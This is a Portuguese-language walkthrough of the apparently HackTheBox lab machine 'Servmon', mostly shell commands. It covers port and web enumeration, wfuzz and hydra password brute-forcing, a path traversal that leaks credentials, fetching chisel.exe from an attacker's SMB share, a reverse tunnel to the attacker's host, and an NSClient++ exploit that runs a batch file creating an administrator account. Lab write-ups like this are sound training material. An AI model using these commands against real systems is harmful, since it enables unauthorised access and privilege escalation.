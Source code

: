 Servmon
========================

# Enumeration

    sudo nmap_enum servmon.htb | tee nmap_output.txt

![qownnotes-media-ddeyaE](../../../media/qownnotes-media-ddeyaE.png)

    sudo nmap -p- -Pn -T5 -n servmon.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-mAvaex](../../../media/qownnotes-media-mAvaex.png)

    firefox http://servmon.htb

    searchsploit nvm
        
![qownnotes-media-nDmAyt](../../../media/qownnotes-media-nDmAyt.png)


    searchsploit nsclient
    
![qownnotes-media-DZgreB](../../../media/qownnotes-media-DZgreB.png)


    wfuzz -c -z file,/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt --hc 403 -t 16 https://servmon.htb:8443/auth/token?password=FUZZ 2>&1 | tee "tcp_port_protocol_wfuzz.txt"
    
![qownnotes-media-ZzHQYJ](../../../media/qownnotes-media-ZzHQYJ.png)

    
    wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 403 -t 16 https://servmon.htb:8443/auth/token?password=FUZZ 2>&1 | tee "tcp_port_protocol_wfuzz.txt"


Null session
 
    smbclient -L //10.10.10.184
    
    smbclient -L //10.10.10.184 -N -U ''

![qownnotes-media-JjiIBI](../../../media/qownnotes-media-JjiIBI.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.180 | tee nmap_udp_output.txt

![qownnotes-media-YwWUzD](../../../media/qownnotes-media-YwWUzD.png)

    nikto -host http://servmon.htb -T x 6
    
![qownnotes-media-SUFTCz](../../../media/qownnotes-media-SUFTCz.png)


    nikto -host https://servmon.htb:8443 -T x 6
    

    gobuster dir -u https://servmon.htb:8443 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_8443_protocol_gobuster.txt"
    

ACHEI O ENTRY POINT

    ftp -a -A 10.10.10.184

Baixei todo o conteudo

![qownnotes-media-tliVOW](../../../media/qownnotes-media-tliVOW.png)



![qownnotes-media-vDDsKS](../../../media/qownnotes-media-vDDsKS.png)

# Exploitation

Nao deu certo

    hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.10.184 ssh
    

Entao ficou assim: 

1) Visto que uma funcionaria deixou um arquivo chamado Password.txt no Desktop do Usuario Nathan, abusei do path traversal ...
 ![qownnotes-media-HWZvit](../../../media/qownnotes-media-HWZvit.png)
![qownnotes-media-mtFoYr](../../../media/qownnotes-media-mtFoYr.png)


2) Obtive credenais para entrar via SSH
    
    hydra -L users.txt -P passwords.txt 10.10.10.184 ssh
    
![qownnotes-media-GaQGLl](../../../media/qownnotes-media-GaQGLl.png)

![qownnotes-media-kiDxLA](../../../media/qownnotes-media-kiDxLA.png)

3) Depois que consegui entrar, percebi que tinha um servico pelo qual a gente poderia subir privilegio. Entao bora la...
    
    searchsploit nsclient

![qownnotes-media-uGKCFK](../../../media/qownnotes-media-uGKCFK.png)


# Privilege Escalation

Com isso eu ja teria acesso administrativo no servico do nsclient, porem esse servico so era acessado via localhost. Partiu fazer redirecinoamento de porta

![qownnotes-media-PiXHva](../../../media/qownnotes-media-PiXHva.png)

Tentei baixar o chisel, mas nao consegui, porque existia uma politica na maquina que nao permitia acessar o conteudo compartilhado de outra maquina sem autenticacao... para resolver isso usei os seguintes comandos:


    net use \\10.10.14.4\smb test123 /user:user
    # Vale considerar que a sintaxe do comando eh: net use \\ip\share senha /user:nome_usuario
    
    copy \\10.10.14.4\smb\chisel.exe c.exe
![qownnotes-media-MJazdm](../../../media/qownnotes-media-MJazdm.png)


    c.exe client 10.10.14.4:7777 R:8443:127.0.0.1:8443

    Na maquina do atacante ficou:
    
    ./chisel server -p 7777 --socks5 --reverse
    
Nesse caso eu ja conseguia interagi com o servico. Como eu ja tinha senha deste, soh utilizei um exploit para executar uma tarefa de adicao de usuario na maquina, porque eu nao conseguia subir uma shell reversa por conta do antivirus que estava bloqueando.


    cat adduser.bat
    @echo off
    net user john P@ssword123 /add
    net localgroup Administrators john /add


    python exploit.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'c:\temp\adduser.bat'

![qownnotes-media-qZcVmX](../../../media/qownnotes-media-qZcVmX.png)


    ssh john@10.10.10.184
    P@ssword123<ENTER>
    
 ![qownnotes-media-LWchOQ](../../../media/qownnotes-media-LWchOQ.png)

![qownnotes-media-DbaOWJ](../../../media/qownnotes-media-DbaOWJ.png)

Fim de papo.